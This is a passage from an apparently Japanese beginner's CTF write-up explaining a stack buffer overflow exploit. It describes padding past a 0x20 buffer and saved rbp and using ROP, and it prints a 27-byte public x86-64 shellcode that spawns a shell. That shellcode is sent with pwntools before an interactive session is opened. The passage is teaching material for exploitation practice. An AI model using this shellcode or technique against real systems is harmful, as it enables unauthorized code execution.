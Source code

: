 main関数のアセンブリを読み、代入用に0x20のスタック**のみ**確保されていることと、そのあとで必ず0x8の古いrbpの値が確保されることから、aでそこまで埋める。

そうしてバッファオーバーフローを起こした後でropを発動。
シェルコードを実行する。


```a.py
s.sendline(
  "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
  "\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
```
シェルコードを送り付ける処理。シェルコード->アセンブラ言語->機械語に変換してあるものを送り付ける

### シェルコードとは
シェルを実行するものをはじめ、特定の処理を行うコードの総称。
> http://shell-storm.org/shellcode/files/shellcode-806.php

これは公開されている出来合いのシェルコードの1つであり、使いまわしがきく。
これを一番最初にとりあえず送り付けてみる、という手段も有効

---
```a.py
s.interactive()
```

相互接続を可能にする。シェルを奪った後に操作できるように

---
こうしてシェルを奪えます。
![](https://i.imgur.com/BbMohrl.png)

続きはまた次回...
